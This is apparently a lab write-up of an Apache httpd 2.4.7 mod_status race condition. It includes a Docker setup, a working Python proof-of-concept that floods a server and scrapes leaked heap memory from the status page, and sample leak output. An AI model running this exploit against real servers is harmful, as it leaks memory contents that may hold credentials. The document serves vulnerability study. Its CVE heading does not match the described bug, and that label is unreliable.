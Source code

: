 # CVE-2017-12615

## Description 
Race condition in the mod_status module in the Apache HTTP Server before 2.4.10 allows remote attackers to cause a denial of service (heap-based buffer overflow), or possibly obtain sensitive credential information or execute arbitrary code, via a crafted request that triggers improper scoreboard handling within the status_handler function in modules/generators/mod_status.c and the lua_ap_scoreboard_worker function in modules/lua/lua_request.c.

## Environment setup
We are running the service (Apache 2.4.7) Docker Container with base OS Ubuntu 16.04. Apache httpd is compiled with MPM worker 
```
./configure --enable-mods-shared=reallyall --with-included-apr
```

The Dockerfile describes the environment deployed
```dockerfile
FROM ubuntu:16.04
RUN apt-get update
# some basic tools and the required libraries used to build the server
RUN apt-get -y install unzip wget git less subversion python libtool-bin libtool autoconf build-essential vim libxml2 libexpat1-dev libpcre3-dev
# apache version 2.4.7
RUN wget https://github.com/apache/httpd/archive/refs/tags/2.4.7.zip
RUN mkdir /apache
RUN unzip 2.4.7.zip -d /apache
WORKDIR /apache/httpd-2.4.7
# installing apache portable runtime libarary
RUN svn co http://svn.apache.org/repos/asf/apr/apr/trunk srclib/apr
RUN ./buildconf
RUN ./configure --enable-mods-shared=reallyall --with-included-apr
RUN make
RUN make install
# copying the apache configuration
COPY ./apache2 /etc/apache2/
COPY ./poc.py .
# Setting the server status and extended status
RUN echo 'SetHandler server-status\nExtendedStatus On' >> /usr/local/apache2/conf/httpd.conf
EXPOSE 80
```

After setting the server, everything looks like  
![](server1.png)
![](server2.png)

As we can see, the server logs the requests in the format  
`Server x-x (xxx): x|x|x [status] ... IP {REQUEST} [IP]` 
All we are interested in is the `{REQUEST}` field inside the curly brackets. We can safely ignore all other html tags and other fields in the response from the server while exploitation. 


## Exploit
```python
#!/usr/bin/env python
import httplib
import sys
import threading
import subprocess
import random
import re

INTERESTING = re.compile('\{(.*)\}')
# everything inside curly brackets {} as it would be the
# content we would get back from the scoreboard because of
# its log format

def find_leaks(string):
    leaks = []
    match = re.findall(INTERESTING,string)
    for leak in match:
        # if some string which is not fully our spam AAAA
        # or if it contaions notables its our original request
        if not leak or 'AAAA' in leak or 'notables' in leak:
            continue
        else:
            leaks.append(leak)
    if leaks:
        print(leaks)

def send_request(method, url):
    try:
        c = httplib.HTTPConnection('127.0.0.1', 80)
        c.request(method,url);
        if "foo" in url:
            find_leaks(c.getresponse().read())
        c.close()
    except Exception as e:
        print(e)
        pass

def mod_status_thread():
    while True:
        send_request("GET", "/foo?notables")

def requests():
    """
    Spamming ill-requests till we encounter a race condition
    """
    evil = ''.join('A' for i in range(random.randint(0, 1024)))
    while True:
        send_request(evil, evil)

# thread for mod status 
threading.Thread(target=mod_status_thread).start()
# 
threading.Thread(target=requests).start()
```
## Explanation
![](CVE1-code_flow_diagram.png)


In POC code,we start two threads viz. mod_status_thread and requests thread. mod_status_thread sends HTTP GET request to retrieve Apache server information and child process states. The request is then handled by status_handler() function which iterates over all workers. Say for some worker "X", ap_escape_html() function is invoked which in turn calls ap_escape_logitem() function which dupliactes the ws_record->request string. However, another thread could potentially concurrently update ws_record->request leading to race condition. In such a scenario, the string returned by ap_escape_logitem would not be null terminated. The ap_escape_html() function then duplicates the non terminated string returned by ap_escape_logitem() function leading to memory leak. The requestes thread is used to send random requests to simulate traffic so that some meaningful data is obtained from the leaked memory.

## Info Leak
After running the exploit for a while (after encountring a couple of race conditions), we gather a couple of info leak samples which are either some memory location (by the look of it 0x7fecXXXX) or some other memory available at the heap.

```
['A\xb7\x04\x9ce\x7f']
['A4']
['A']
['A\xfc\x01pe\x7f']
['A2]`[26/Mar/2021:01:00:22 +0000]']
['A2:80']
['A\x9b\x01te\x7f']
['A________________                                       _________________________                                       ................................                                .........................                                       .........................
                          \x18']
```
Hence, we are in fact able to leak out information from the heap, which may in turn contain other unintentional information. However, the race condition is quite hard and rare to trigger, we were not able to develop and trigger an RCE, which is theoretically possible but significantly more invloved than standard binary exploitation. Moreover DOS might also not be demonstratable under the given setup without heavy traffic and the server wont crash since as soon as a thread ends up in race condition and is killed, apache server churns up a new thread in place of it. 
